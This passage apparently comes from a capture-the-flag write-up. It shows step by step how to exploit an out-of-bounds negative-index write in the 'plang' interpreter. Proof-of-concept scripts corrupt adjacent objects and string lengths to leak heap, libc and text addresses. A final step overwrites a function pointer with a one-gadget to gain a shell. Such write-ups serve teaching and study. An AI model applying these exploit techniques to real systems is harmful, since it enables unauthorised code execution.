 ```
var a = "This is a PoC!"
System.print(a)
var b = [1, 0x123, 3, 7 , 8]
var c = [75, 0x123, 3, 7 , 20]
c[-0x36]=1234
System.print(b)

> > This is a PoC!
> > > > [1234,291,3,7,8]
```

But we cannot use this trick to leak information on heap, since we can only use negative index for assignment.

#### Leak

Then I found that we can modify the length of string object. Therefore, we can leverage modified string object to leak heap address.

```
var a = "This is a Po"
System.print(a)
var b = [1, 0x123, 3, 7 , 8]
var c = [75, 0x123, 3, 7 , 0,40]
c[-0xe0]=1 # This actually change the length of a into 0x3ff0000000000000
System.print(c[0])
System.print(a[0x30]+a[0x31]+a[0x32]+a[0x33]+a[0x34]+a[0x35]+a[0x36]+a[0x37]) # leak heap address
```

Here is a limitation of this trick, we can only leak information at higher address. However there is no libc address at higher address on heap.

Fortunately, I found some native objects and libc address at lower address on heap. Since `plang` implement `toString` for every native class, we can modify these string objects to leak libc address as well as text address.


```
var a = "This is a Po"
System.print(a)
var b = [1, 0x123, 3, 7 , 8]
var c = [75, 0x123, 3, 7 , 0,40]
c[-0xe0]=1
c[-0xeaa]=1
System.print(c[0])
System.print(a[0x30]+a[0x31]+a[0x32]+a[0x33]+a[0x34]+a[0x35]+a[0x36]+a[0x37])
var lib=Num.toString
System.print(lib[0x18]+lib[0x19]+lib[0x1a]+lib[0x1b]+lib[0x1c]+lib[0x1d]) # leak libc address
System.print(lib[0xd378]+lib[0xd379]+lib[0xd37a]+lib[0xd37b]+lib[0xd37c]+lib[0xd37d]) # leak text address
```

#### exploit

At the end, I found a function address at 0x21E050. Since I have all the address I need, I can easily overwrite the function address with one gadget and get the shell. 
By the way, you have to encode the one gadget address in `double` format, because all the number in the array are in `double` format
